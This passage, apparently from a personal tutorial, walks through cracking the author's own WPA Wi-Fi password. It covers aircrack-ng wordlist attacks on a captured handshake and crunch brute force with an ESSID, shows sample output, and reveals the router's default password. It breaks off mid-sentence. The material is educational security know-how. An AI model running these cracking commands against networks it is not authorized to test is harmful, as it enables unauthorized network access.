 First, we'll go over the approach using a wordlist. The command to begin cracking using a wordlist is as follows:

```
$ aircrack-ng -w wordlist.txt SCAN_OUTPUT.cap
```

In my case, I used a short wordlist of 4800 passwords to try and crack the handshake. I was not able to find the key, but this is what the output will look like:

```
                              Aircrack-ng 1.5.2

      [00:00:00] 4800/4799 keys tested (5047.82 k/s)

      Time left: 0 seconds                                     100.02%

                                KEY NOT FOUND

      Master Key     : 8B BB 3C 7A 08 50 43 73 73 BC 27 A0 A0 20 C2 C4
                       F8 82 0E 55 32 29 28 4C 93 CD 4D C0 3E E3 9C 4C

      Transient Key  : DE 14 79 DB 14 3B ED 7A 0D 80 FC DA 67 77 5C 09
                       C7 95 27 0C AC 2A 3B 2B 08 5F B5 22 B5 F6 F7 0F
                       C5 50 68 68 85 00 1E 80 33 1B F8 D9 FE E2 5B F4
                       71 EE D0 87 E4 57 ED 21 2D 66 CC 0B A7 A7 0D 1D

      EAPOL HMAC     : 35 D8 56 95 03 0B DF 6B 48 C4 DE 21 DB 01 7F E7
```

The tool will go through every password in the wordlist and try to crack the acess point's password. Wordlists are convenient and can be fast, but if the password is not in the wordlist itself, we'll need to try bruteforcing.

There are likely several tools out there that can generate password combinations, but I used `crunch`. The formula to feed passwords generated by `crunch` into `aircrack-ng` is as follows (notice we need to specify the ESSID this time):

```
$ crunch [min password length] [max password length] [characters to use] | aircrack-ng -w - [filename.cap] -e [ESSID]
```

I already know the length of the passowrd to my own router. My full command looks like this:

```
$ crunch 14 14 abcdefghijklmnopqrstuvwxyz 1234567890 | aircrack-ng -w - SCAN_OUTPUT.cap -e Lower\ The\ Rent
```

This will be very slow, as the program will attempt every 14-character letter and number combination possible.

In my case, my router has the default password of `pinkcoconut165`. With this knowledge, I can specify further. Instead of attempting a random mix of letters and numbers, I can test for a specific arrangement of letters/numbers. Obviously, this would not be known if we were attacking a completely unknown access point, but I want to demonstrate what a successful crack looks like. Using the `-t` option we can specify a pattern. Here's the description from the `man` page:
